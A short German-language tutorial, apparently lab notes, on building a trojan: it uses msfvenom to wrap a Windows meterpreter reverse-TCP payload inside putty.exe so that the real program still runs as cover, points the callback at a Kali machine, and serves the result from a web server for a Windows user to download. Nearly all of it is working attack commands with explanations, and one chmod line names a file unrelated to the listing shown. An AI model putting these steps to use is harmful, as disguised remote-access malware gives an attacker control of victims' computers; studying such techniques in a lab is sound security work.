 Sind die permissions unter Linux nicht gesetzt:

```sh
$ ls -l
-rwx------ 1 root root 2244564 Jun 29 03:52 putty.exe

$ chmod a+r KoboDeluxePortable.zip 

$ ls -l
-rwxr--r-- 1 root root 2244564 Jun 29 03:52 putty.exe
```

`putty.exe` unter Windows starten, ist ein ssh Programm.



## Trojaner erzeugen

Unter Kali: Wrapper mit `msfvenom` erzeugen. Der Wrapper enthält:

- Carrier Application (putty)
- Payload (Malware)

Kali IP: `192.168.178.81`

```sh
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.178.81 LPORT=8080 -x putty.exe -k -f exe -o putty2.exe
# -p ... payload
# LHOST/LPORT ... Listener Host/Port
# -x ... carrier application (Tarnung für den Trojaner)
# -k ... zusätzlich zur payload auch die carrier app ausführen
# -f ... output format
# -o ... output path
```

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
...
```

Dazu muss die Carrier App 32 Bit sein. Eventuell geht aus auch mit 64 Bit. Nicht getestet. `msfvenom --list archs` (x64, x86, x86_64). Einstellen mit `--arch` Option. [[How to check if a binary is 32 or 64 bit on Windows?](https://superuser.com/a/889267)].

Zum Download bereitstellen:

```sh
$ cp putty2.exe /var/www/html 
```

Unter Windows laden:

`http://192.168.178.81/putty2.exe`

Der Download wird zuerst abgelehnt, man muss auf "beibehalten" klicken

